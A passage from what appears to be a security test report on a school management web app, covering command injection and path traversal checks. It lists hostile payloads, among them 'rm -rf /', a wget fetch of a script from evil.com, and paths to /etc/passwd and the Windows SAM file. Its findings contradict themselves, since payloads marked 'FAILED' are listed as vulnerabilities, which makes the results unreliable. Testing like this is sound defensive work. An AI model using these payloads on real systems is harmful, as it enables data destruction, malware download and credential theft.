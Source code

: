 
## ⚡ Command Injection Protection

### ✅ **Strong Protection (81% Success Rate)**

**Protected Areas**:

- `/manage_students` - ✅ **100% Protected**
- `/manage_teachers` - ✅ **100% Protected**

### ❌ **Vulnerabilities Found**

#### 🚨 Command Injection in Headteacher Portal

**Severity**: MEDIUM  
**Location**: `/headteacher/` endpoint

**Vulnerable Payloads**:

- `; ls -la` - **FAILED** ❌
- `| whoami` - **FAILED** ❌
- `&& dir` - **FAILED** ❌
- `; rm -rf /` - **FAILED** ❌
- `; wget http://evil.com/malware.sh` - **FAILED** ❌

**Recommendation**: Implement input sanitization for headteacher dashboard parameters.

---

## 📁 Path Traversal Protection

### ✅ **Perfect Score: 100% Protection**

**All path traversal attempts blocked**:

- `../../../etc/passwd` - ✅ BLOCKED (403)
- `..\\..\\..\\windows\\system32\\config\\sam` - ✅ BLOCKED (403)
- URL-encoded payloads - ✅ BLOCKED (403)
- Double-encoded payloads - ✅ BLOCKED (403)

**Protection Methods**:

- Static file access properly restricted
- Directory traversal attempts blocked
- File system access controls working

---

## 🔒 Input Validation

### ✅ **Strong Overall Protection (90% Success Rate)**

**Protected Against**:

